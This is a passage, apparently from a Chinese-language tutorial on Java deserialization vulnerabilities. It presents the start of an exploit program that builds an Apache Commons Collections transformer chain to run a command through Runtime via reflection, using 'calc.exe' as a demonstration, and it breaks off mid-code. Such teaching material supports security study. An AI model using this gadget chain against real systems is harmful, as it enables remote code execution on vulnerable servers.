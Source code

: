 ![](Java反序列化漏洞解析\9.png)

完整版的漏洞利用代码和演示结果：

```java
// Exploit.java

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.File;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class Exploit {
    public static void main(String[] args) throws Exception {
        //定义待执行的命令:
        String commandstring = "calc.exe";

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0] }
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class,Object[].class },
```